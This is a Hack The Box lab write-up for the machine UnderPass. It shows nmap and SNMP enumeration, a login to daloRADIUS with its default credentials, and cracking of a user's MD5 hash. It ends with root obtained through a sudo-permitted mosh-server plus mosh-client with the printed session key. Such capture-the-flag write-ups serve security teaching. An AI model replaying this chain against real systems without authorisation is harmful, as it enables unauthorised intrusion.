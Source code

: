 +++
title = "HTB - UnderPass"
date = "2025-04-22"
author = "dax"
cover = ""
tags = ["snmp", "daloradius", "mosh"]
keywords = ["hacking", "htb", "underpass", "hack the box"]
description = "Write-up of Hack The Box easy machine UnderPass"
showFullContent = false
readingTime = true
hideComments = false
color = "green"
+++

# HTB - UnderPass
## Enumeration:
Nmap
```bash
# Nmap 7.95 scan initiated Fri Apr  4 13:21:10 2025 as: /usr/lib/nmap/nmap -v -p - -Pn -T4 -A -oN nmaptcp underpass.htb
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Uptime guess: 28.785 days (since Thu Mar  6 17:31:14 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   22.07 ms 10.10.14.1
2   22.48 ms underpass.htb (10.10.11.48)

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr  4 13:21:40 2025 -- 1 IP address (1 host up) scanned in 30.65 seconds

# Nmap 7.95 scan initiated Fri Apr  4 13:21:25 2025 as: /usr/lib/nmap/nmap -v --top-ports 100 -Pn -T4 -A -sU -oN nmapudp underpass.htb
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.035s latency).
Not shown: 65 closed udp ports (port-unreach)
PORT      STATE         SERVICE         VERSION
161/udp   open          snmp            SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info:
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: c7ad5c4856d1cf6600000000
|   snmpEngineBoots: 31
|_  snmpEngineTime: 7h23m18s
| snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
|_  System uptime: 7h23m17.75s (2659775 timeticks)

Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops
Service Info: Host: UnDerPass.htb is the only daloradius server in the basin!

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr  4 13:26:41 2025 -- 1 IP address (1 host up) scanned in 315.62 seconds
```

## User exploit

Looking at the nmap UDP scan, we can see that SNMP port 161 is open. SNMP is used to monitor and manage devices on IP networks. It can be useful to gather information about a host (and sometimes to write that information too). In this case, as we can see from the nmap service info, the server seems to be a Daloradius server. We can also get this information by querying the `public` community with `snmp-check`.

```bash
snmp-check 10.10.11.48 -c public
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.10.11.48:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.48
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
  Location                      : Nevada, U.S.A. but not Vegas
  Uptime snmp                   : 14:24:33.70
  Uptime system                 : 14:24:22.39
  System date                   : 2025-4-23 00:28:23.0
```

As per their Github page, daloRADIUS is an advanced RADIUS web management application for managing hotspots and general-purpose ISP deployments. We can have a look at their repository to figure out the directory structure, and soon enough we can find the operator's login page on web port 80 at http://underpass.htb/daloradius/app/operators/login.php.

![](/img/htb/underpass/daloradius_login.png)

A quick Google search gives us the default credentials (administrator:radius), which allows us to log in to the operator's portal. Taking a quick look around, we eventually stumble upon the `Management > Users > List Users` interface, which contains the user `svcMosh`. It also has a very suspicious `Password` column that seems to contain a hash.

![](/img/htb/underpass/daloradius_user.png)

By editing the user and going to the `Check Attributes` tab, we can see that this is indeed an `MD5` hash for the user's password, which we can easily crack online to get the password.

![](/img/htb/underpass/daloradius_pw.png)

We can then use these credentials to log into the SSH port and get the user flag (be careful, usernames are case sensitive).

## Root exploit

Running `sudo -l` tells us that we can run the command `/usr/bin/mosh-server` as root, without supplying a password (`(ALL) NOPASSWD: /usr/bin/mosh-server`). This command allows us to start a Mobile Shell server. The Mosh Github page tells us that Mosh is a remote terminal application that supports intermittent connectivity, allows roaming, and provides speculative local echo and line editing of user keystrokes.

The Github page doesn't go into many details of how the `mosh-server` command works, but the man page is more helpful.

```
mosh-server binds to a high UDP port and chooses an encryption key to protect the session. It prints both
on standard output, detaches from the terminal, and waits for the mosh-client to establish a  connection.
It will exit if no client has contacted it within 60 seconds.
```

The `mosh-client` man page also gives us good information.

```
mosh  itself  is  a  setup  script  that establishes an SSH connection, runs the server-side helper mosh-
server, and collects the server's port number and session key.

mosh then executes mosh-client with the server's IP address, port, and session key. mosh-client runs  for
the lifetime of the connection.

The  22-byte  base64  session  key given by mosh-server is supplied in the MOSH_KEY environment variable.
This represents a 128-bit AES key that protects the integrity and confidentiality of the session.
```

Now that we know how to use the `mosh-server` and `mosh-client` commands, we can use them to get a root shell.

```bash
svcMosh@underpass:~$ sudo /usr/bin/mosh-server


MOSH CONNECT 60003 1DPloN+qSDealpww3Sy+/A

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 35250]

MOSH_KEY=1DPloN+qSDealpww3Sy+/A mosh-client 127.0.0.1 60003
```

## Resources:

| Hyperlink                              | Info       |
| -------------------------------------- | ---------- |
| https://github.com/lirantal/daloradius | daloRADIUS |
| https://github.com/mobile-shell/mosh   | Mosh       |
